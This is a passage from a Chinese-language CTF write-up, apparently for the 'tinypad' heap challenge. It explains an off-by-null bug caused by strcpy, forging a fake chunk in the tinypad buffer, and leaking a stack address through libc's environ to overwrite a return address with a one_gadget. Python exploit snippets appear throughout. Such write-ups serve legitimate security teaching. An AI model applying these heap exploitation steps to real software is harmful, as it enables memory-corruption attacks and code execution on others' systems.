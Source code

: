 第二点，地址偏移也是我们知道的，程序没有PIE保护，tinypad的地址就是0x602040，堆块地址我们已经泄露出来了

第三点，有一个比较明显的off by one的漏洞(off by null),如前面所说，edit函数通过strcpy的方式来讲我们的输入拷贝回原来的堆块的。如果我们申请一个大小为0x18的堆块chunk1，将它用字母a全部填充满,紧贴着在它后面申请一个大小为0xf0的chunk2，然后对chunk1进行edit操作，再输入0x18个字母a回去。chunk2的prev_size位就被覆盖为0x00了。

第四点，我们可以对chunk1进行edit操作来对chunk2的prev_size位进行修改。这里需要注意的是，edit函数使用strcpy实现堆块修改的，strcpy遇到\x00会截断，所以一次只能修改一个字节为\x00。

chunk1中我们全部写入了字母a，最后的8个字母a需要被我们改写成OFFSET。我们需要写入多个\x00，这就说明我们需要执行多次edit操作来写入OFFSET。

第三点这一个过程的演示入下：

首先，chunk1 = malloc(0x18)，将chunk1全部填充为’a’。然后执行chunk2 = malloc(0xf0)。此时的堆块内容如图所示：

[![](https://p2.ssl.qhimg.com/t0145c557cc13b931be.png)](https://p2.ssl.qhimg.com/t0145c557cc13b931be.png)

然后，对chunk1进行edit操作，输入0x18个‘a’回去，此时堆块内容如图所示：

[![](https://p0.ssl.qhimg.com/t01ad125cd8fa91d0c2.png)](https://p0.ssl.qhimg.com/t01ad125cd8fa91d0c2.png)

最后我们就可以把OFFSET写入chunk2的prev_size位了。然后我们就可以去构造fake_chunk了。

```
offset = buf_addr + 0x100 - 0x602060
alloc(0x18,'e' * 0x18)#idx1
alloc(0xf0,'e' * 0xf0)#idx2
alloc(0x100,'f' * 0xf8)#idx3
alloc(0x100,'g' * 0x100)#idx4
edit(1,'a' * 0x18) #覆盖idx2的preinuse
len_of_zero = (18 - len(str(hex(offset))))/2 #需要覆盖的0的个数
for i in range(len_of_zero):
edit(1,'a' * (0x17 - i))
edit(1,'a' * 0x10 + p64(offset))
```

构造fake_chunk时，我们需要向tinypad中写入数据。就需要利用到edit功能来先向tinypad的数据缓冲区中写入数据。根据再0x01中提到的方法，这里不再赘述，直接给予代码和注释。

```
fake_chunk = 'd' * 0x20 + p64(0) + p64(0x101) + p64(0x602060) * 2 #构造fake_chunk到0x602060.绕过unlink第二个保护
edit(2,fake_chunk)#write fake_chunk to tinypad
delete(2) #我们不需要构造fakechunk's nextchunk的size位来绕过第一个保护,因为通过计算，这个需要我们构造的地方的值是chunk2的size，恰好就是0x100，所以不需要修改，也可以绕过unlink第一个保护
payload2 = 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena_88) * 2
edit(4,payload2)#成功free后，需要把合并后的堆块fd和bk修改为main_arena + 88
```

当我们再申请一个0xf8大小的堆块时，程序就会把tinypad+0x20处的地址返回给我们了。我们就可以修改从tinypad+0x20开始，0x100大小的数据，tinypad+0x100处存储了第一个堆块的size和ptr，tinypad+0x110处存储了第二个堆块的size和ptr。这两个堆块的ptr我们已经可以进行修改了。

由于malloc_hook处的值是0，我们无法通过edit的方式把onegadget写入malloc_hook(因为malloc_hook的strlen是0，无法读入数据)。那么我们就可以通过修改函数的返回地址为onegadget。

修改函数的返回地址需要把程序保存返回地址的位置的值修改掉。我们需要泄露栈地址。libc中有一个符号’environ’存储了栈中的一个地址。我们可以利用它来得到栈地址。

将chunk1的地址改成environ的地址，目的是通过show得到environ中的数据(一个栈地址)。将chunk2的地址改成保存chunk1的地址处的地址(0x602148)，目的是方便修改chunk1的指针值。
